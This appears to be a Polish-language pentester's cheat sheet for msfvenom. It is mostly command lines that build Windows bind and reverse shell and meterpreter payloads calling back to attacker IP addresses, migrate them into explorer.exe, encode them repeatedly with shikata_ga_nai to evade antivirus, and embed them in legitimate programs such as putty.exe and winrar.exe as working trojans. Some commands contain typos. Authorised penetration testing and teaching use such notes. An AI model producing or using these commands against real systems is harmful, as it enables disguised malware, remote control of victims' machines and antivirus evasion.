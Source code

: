 ```bash
$ msfvenom -p windows/shell_hidden_bind_tcp ahost=192.168.0.107 lport=1010 -f exe > /root/Desktop/hidden.exe
```
```bash
# Reverse Shell Payload
$ msfvenom -p windows/shell_reverse_tcp ahost=192.168.0.107 lport=1111-f exe > /root/Desktop/ncshell.exe
```

**msfvenom migrate**
```bash
# msfvenom migrate
msfvenom ... prpendmigrateprocess=explorer.exe prependmigrate=true
```

```bash
# msfvenom migrate
use windows/meterpreter/reverse_tcp
...
set prependmigrate true
set prependmigrateprocess explorer.exe

generate –f.exe -o nisha.exe
```

**msfvenom encode**

Działa przeciw programom AV, które używają bazy sygnatur plików, które mogą być wirusami.  
Enkoder pozwala zmienic sygnaturę pliku.  
Nowsze AV działaja inaczej i wykrywaja to.

```bash
# lista dostępnych enkoderów
$ msfvenom --list encoders

# najlepsze enkodery (Rank: excellent)
cmd/powershell_base64 # Powershell Base64 Command Encoder
x86/shikata_ga_nai # excellent  Polymorphic XOR Additive Feedback Encoder

$ msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 lport=4444 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
$ msfvenom
-p windows/meterpreter/reverse_tcp LHOst=10.10.10.10 Lport=1234
-f py
-e x86/shikata_ga_nai -i 10 # enkodowanie payloadu enkoderem "x86/shikata_ga_nai" 10 razy
-x winrar.exe /putty.exe # --template - ukrywa shellcode w pliku (zachowuje info na jego temat ale nie funkcjonalność
-k # --keep - zachowaj funkcjonalność pliku template ( -x winrar.exe), działa normalnie a shellcode uruchamiany jest w osobnym wątku, wymaga dużo testów aby znaleźć działający plik exe
-b "\x00" # bad chars to avoid
```
## Badchars in shellcode generation
pozbywa się badchar z payloadu
```bash
msfvenom ... -b ‘\x00\x0a\x0d\x20’ ...

-b badchar list
```
https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86
## Własny shellcode zamiast metasploitowego payloadu 
```bash
$ cat binshellcode.bin | msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f c -b '\x00'
﻿
-p - instructs msfvenom to read the custom payload from the stdin
```